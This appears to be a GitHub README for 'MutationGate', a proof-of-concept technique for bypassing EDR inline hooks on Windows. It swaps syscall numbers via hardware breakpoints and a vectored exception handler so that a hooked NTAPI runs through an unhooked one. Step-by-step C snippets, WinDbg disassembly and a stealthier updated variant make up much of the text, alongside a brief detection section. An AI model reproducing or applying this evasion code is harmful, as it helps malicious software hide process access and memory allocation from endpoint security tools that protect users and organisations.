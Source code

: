 # MutationGate
MutationGate is a new approach to bypass EDR's inline hooking by utilizing hardware breakpoint to redirect the syscall.

It works by calling an unhooked NTAPI and replacing the unhooked NTAPI's SSN with hooked NTAPI's. In this way, the syscall is redirected to the hooked NTAPI's, and the inline hook can be bypassed without loading the 2nd ntdll module or modifying bytes within loaded ntdll's memory space. 

The provided project is only a `POC`, not a comprehensive implementation. For instance, you could use this approach to set hardware breakpoints for a set of functions. 

The function can also be WIN32API. For instance, we can set the 1st hbp at `DrawText` to redirect the execution to `NtDrawText`, and the 2nd hbp replaces the SSN saved in RAX. In this way, module `kernel32.dll` is not skipped, and the call stack looks more legitimate. 

## Description
EDR tends to set inline hooks for various NTAPI, especially those are usually leveraged in malware, such as `NtAllocVirtualMemory`, `NtOpenProcess`, etc. While other NTAPI that are not usually leveraged in malware tend not to have inline hook, such as `NtDrawText`. It is very unlikely that an EDR set inline hook for all NTAPI.   

Assume NTAPI `NtDrawText` is not hooked, while NTAPI `NtQueryInformationProcess` is hooked, the steps are as follows:

1. Get the address of `NtDrawText`. It can be achieved by utilizing `GetModuleHandle` and `GetProcAddress` combination, or a custom implementation of them via PEB walking.
```c
  pNTDT = GetFuncByHash(ntdll, 0xA1920265);	//NtDrawText hash
  pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8);	//Offset 0x8 from NtDrawText
```
2. Prepare arguments for `NtQueryInformationProcess`
3. Set a hardware breakpoint at `NtDrawText+0x8`, when the execution reaches this address, SSN of `NtDrawText` is saved in RAX, but syscall is not called yet.

```windbg
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1          mov     r10,rcx
00007ffb`ad00eb63 b8dd000000      mov     eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503            jne     ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05            syscall
00007ffb`ad00eb74 c3              ret
00007ffb`ad00eb75 cd2e            int     2Eh
00007ffb`ad00eb77 c3              ret
```
4. Retrieve the SSN of `NtQueryInformationProcess`. Inside the exception handler, update RAX with NtQueryInformationProcess' SSN. I.e., the original SSN was replaced.
```c
...<SNIP>...
uint32_t GetSSNByHash(PVOID pe, uint32_t Hash) 
{
	PBYTE pBase = (PBYTE)pe;
	PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
	PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
	DWORD exportdirectory_foa = RvaToFileOffset(pImgNtHdrs, ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + exportdirectory_foa);	//Calculate corresponding offset
	PDWORD FunctionNameArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNames));
	PDWORD FunctionAddressArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfFunctions));
	PWORD  FunctionOrdinalArray = (PWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNameOrdinals));

	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++)
	{
		CHAR* pFunctionName = (CHAR*)(pBase + RvaToFileOffset(pImgNtHdrs, FunctionNameArray[i]));
		DWORD Function_RVA = FunctionAddressArray[FunctionOrdinalArray[i]];
		if (Hash == ROR13Hash(pFunctionName))
		{
			void *ptr = malloc(10);
			if (ptr == NULL) {
				perror("malloc failed");
				return -1;
			}
			unsigned char byteAtOffset5 = *((unsigned char*)(pBase + RvaToFileOffset(pImgNtHdrs, Function_RVA)) + 4);
			//printf("Syscall number of function %s is: 0x%x\n", pFunctionName,byteAtOffset5);	//0x18
			free(ptr);
			return byteAtOffset5;
		}
	}
	return 0x0;
}
...<SNIP>...
```
5. Since we called `NtDrawText` but with `NtQueryInformationProcess`' arguments, the call should be failed. However, since we changed the SSN, the syscall is successful. 
```c
  fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
  NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);	
```


## Update

![example](screenshot/update.jpg)

I provided an updated poc `MutationGate_Update.cpp`. In this POC, I set 2 hbp respectively at `DrawText` and `NtDrawText+0x8`.

When the execution reaches DrawText, update the RIP to `NtDrawText+0`

When the execution reaches NtDrawText+8, update the RAX to NtQueryInformationProcess' SSN.

**Pros: Avoid the direct call to NTAPI**

**Cons: From the perspective of EDR, it is DrawText initiates the syscall, while NTAPI is skipped.**


## Example

![example](screenshot/poc.png)

In this example, NtDrawtext's SSN is `0xdd`, `NtQueryInformationProcess`' SSN is `0x19`, the address of NtDrawText is `0x00007FFBAD00EB60`

The call is made to NtDrawText's address, but with NtQueryInformationProcess. Since the SSN is changed from `0xdd` to `0x19`, the syscall is successful.

## Disclaimer
1. MutationGate is not an extension or variant of various Gate. Because those Gate focus more on retrieving SSN of NTAPI, MutationGate focuses on bypassing the inline hook in NTAPI.
2. MutationGate is able to bypass inline hook in NTAPI, however, the individual technique does not guarantee to bypass EDR, because EDR has multiple detection dimensions, inline hook is one of them.
3. The project is a POC, not a complete and comprehensive implementation.



## Advantages of MutationGate Approach
So far, some classic and common approaches to bypass EDR's inline hook include but are not limited to the following approaches:
1. Load the 2nd ntdll module
2. Copy a fresh ntdll's text section to overwrite hooked ntdll's text section
3. Overwrite hooked codes(syscall stub) with fresh code
4. More...

The above techniques involve the modification of loaded ntdll, or loading of the 2nd ntdll. These behaviors could be detected by EDR. 

While MutationGate is not the only approach that untouches loaded ntdll, it does have the advantage of not modifying the loaded ntdll module, which decreases the possibility of getting detected. 

And, it is very simple, no need to modify other registers, etc.


## Detection
It is possible to detect MutationGate technique.

1. The `AddVectoredExceptionHandler` call could look suspicious in a normal program.
2. In the POC, NTAPI is called directly, which could be weird in a normal program. However, it can be resolved by adding 1 more hardware breakpoint at `DrawText`, directing the execution to `NtDrawText` and triggering the 2nd hardware breakpoint that replaces SSN.
3. Call stack in kernel space could reveal clues.

## Credits and References
<https://cyberwarfare.live/bypassing-av-edr-hooks-via-vectored-syscall-poc/>

<https://redops.at/en/blog/syscalls-via-vectored-exception-handling>

<https://gist.github.com/CCob/fe3b63d80890fafeca982f76c8a3efdf>

<https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html>

Maldev Academy

ChatGPT

## Other Approaches Utilized Hardware Breakpoint
<https://github.com/Dec0ne/HWSyscalls>

<https://github.com/rad9800/TamperingSyscalls>

<https://github.com/RedTeamOperations/VEH-PoC>
